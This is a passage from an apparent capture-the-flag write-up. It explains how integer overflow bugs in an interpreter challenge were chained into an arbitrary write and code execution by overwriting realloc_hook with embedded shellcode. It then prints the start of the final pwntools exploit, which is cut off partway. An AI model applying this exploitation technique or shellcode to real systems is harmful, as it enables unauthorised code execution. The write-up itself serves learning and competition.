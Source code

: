 The second bug allows us to OR values into the tag of CTR node (0x6),
that are, CAL (0x7), DP0 (0xE), and DP1 (0xF).
DP nodes are indirect variables
that write the value to another location
when passed to `link()` (see change 2 above),
so we felt that we were on track.
However, upon investigating how to exploit this arity overflow bug,
we found the third integer overflow bug
that basically allows us to create any node
as long as its value can be expressed by
a multiplication of two u32 values.
It was so powerful that we didn't need the second bug at all.

I prepared an arbitrary write primitive,
and setuid0 upgraded it into a full exploit.
He put shellcode and short jumps
as immediate values in the compiled binary
and jumped into the middle
by overwriting `realloc_hook`.
I was so happy when we solved the problem
because my wish was granted :)

![Wish](./wish.png)

Our final exploit:

```python
from pwn import *

exploit = """// 0x26, 0x2a, 0x2a
(Main) = (
    (
        Exploit
        11111111 41414141
        22222222 41414141
        33333333 41414141
        1304007 41414141
        55555555 41414141
        66666666 41414141
        77777777 41414141
        88888888 41414141
    )
    (
        Exploit
        //585878732 652987596
        585863312 652972176
        // xor eax,eax
        // mov al,0x40
        652984369 652951728
        // shl eax,1
        // shl eax,1
        652992721 652992721
        // shl eax,1
        // shl eax,1
        652992721 652992721
        // shl eax,1
        // shl eax,1
        652992721 652992721
        // shl eax,1
        // shl eax,1
        652992721 652992721
```